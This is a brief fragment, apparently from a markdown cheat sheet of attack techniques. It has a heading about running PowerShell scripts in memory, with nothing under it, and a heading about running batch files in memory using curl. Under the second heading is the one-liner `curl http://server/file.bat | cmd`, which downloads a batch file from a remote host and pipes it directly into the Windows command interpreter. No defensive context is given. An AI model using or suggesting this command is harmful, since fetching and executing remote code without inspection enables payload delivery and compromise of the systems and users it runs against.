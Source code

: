 ## Execute Powershell Scripts in Memory

## Execute Bat files in Memory Using Curl

`curl http://server/file.bat | cmd`
